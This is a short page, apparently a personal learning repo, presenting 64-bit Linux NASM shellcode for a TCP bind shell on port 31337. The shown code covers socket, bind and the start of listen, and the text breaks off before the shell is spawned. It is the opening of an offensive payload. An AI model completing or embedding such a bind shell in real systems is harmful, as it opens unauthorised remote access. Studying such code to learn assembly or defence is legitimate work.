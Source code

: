 ## TCP Bind Shell 64bit

In learning 64 bit assembly language under Linux, I thought I would convert some of the 32 bit code I have already in my repo. Therefore there won’t be a full explanation, just the basics.

The assembly language code.
```nasm	
global _start
section .text
 
_start:
    xor    rax,rax
    xor    rdi,rdi
    xor    rsi,rsi
    xor    rdx,rdx
    xor    r8,r8
 
    ; Socket
    ; Function prototype:
    ;       int socket(int domain, int type, int protocol)
    ; Purpose:
    ;       creates an endpoint for communications, returns a
    ;       descriptor that will be used thoughout the code to
    ;       bind/listen/accept communications
    push   0x2   
    pop    rdi
    push   0x1
    pop    rsi
    push   0x6
    pop    rdx
    push   0x29
    pop    rax
    syscall 
    mov    r8,rax
 
    ; Bind
    ; Function prototype:
    ;      int bind(int sockfd, const struct sockaddr *addr,      
    ;               socklen_t addrlen)                            
    ; Purpose:
    ;       assigns the addess in addr to the socket descriptor,
    ;       basically "giving a name to a socket"
    xor    r10,r10
    push   r10
    push   r10
    mov    byte [rsp],0x2
    mov    word [rsp+0x2],0x697a
    mov    rsi,rsp
    push   r8
    pop    rdi
    push   0x10
    pop    rdx
    push   0x31
    pop    rax
    syscall 
 
    ; Listen
    ; Function prototype:
    ;       int listen(int sockfd, int backlog)
    ; Purpose:
    ;       sets the socket in the descriptor in preparation to
    ;       accepting incoming communications
    push   r8
    pop    rdi
```